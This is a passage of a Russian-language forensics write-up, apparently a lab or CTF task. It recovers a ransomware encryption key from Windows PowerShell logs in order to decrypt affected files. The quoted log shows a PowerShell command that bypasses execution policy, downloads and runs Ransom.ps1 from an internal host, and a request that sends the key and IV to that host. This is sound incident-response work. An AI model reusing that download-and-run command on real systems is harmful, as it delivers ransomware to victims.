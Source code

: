 Так что было решенно посмотреть логи других программ, в различных сетевых логах ничего не нашлось, а вот в логах powershell'a (`Applications and Services Log > Microsoft > Windows > PowerShell > Operational`). Нашлась интересная и нужная запись.

```
CommandInvocation(Invoke-WebRequest): "Invoke-WebRequest"
ParameterBinding(Invoke-WebRequest): name="Uri"; value="http://10.11.200.50/key=DXySLmtRkp9RWI/+RrEdxZAZ1ApBWZapUSRi3LpO/3U=&iv=HLjnip/6TvNwDoPabcdk7g==&pc=OIK-CLIENT"
TerminatingError(Invoke-WebRequest): "<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.52 (Debian) Server at 10.11.200.50 Port 80</address>
</body></html>
"


Контекст:
        Severity = Informational
        Host Name = ConsoleHost
        Host Version = 5.1.14409.1005
        Host ID = bbaf4e24-c8a1-40c4-a78e-c7b470c62708
        Host Application = powershell.exe -ep bypass (new-object system.net.webclient).DownloadFile('http://10.11.200.50/Ransom.ps1','C:\Ransom.ps1');import-module C:\Ransom.ps1; Ransom -IP 10.11.200.50
        Engine Version = 5.1.14409.1005
        Runspace ID = f9f7609b-bf84-4a18-b829-69b410f181e0
        Pipeline ID = 1
        Command Name = Invoke-WebRequest
        Command Type = Cmdlet
        Script Name = C:\Ransom.ps1
        Command Path = 
        Sequence Number = 25
        User = company\Administrator
        Connected User = 
        Shell ID = Microsoft.PowerShell


Данные пользователя:
```
Из нее видно, что совершается запрос http://10.11.200.50/key=DXySLmtRkp9RWI/+RrEdxZAZ1ApBWZapUSRi3LpO/3U=&iv=HLjnip/6TvNwDoPabcdk7g==&pc=OIK-CLIENT. Достаем из него base64 ключа и iv.

```
Key = DXySLmtRkp9RWI/+RrEdxZAZ1ApBWZapUSRi3LpO/3U=
IV  = HLjnip/6TvNwDoPabcdk7g==
```

Пропишем `set-executionpolicy remotesigned` чтобы можно было запускать powershell скрипты из файла, перепишем малварь под декриптер файлов и востановим все файлы из папки `C:\Share`.
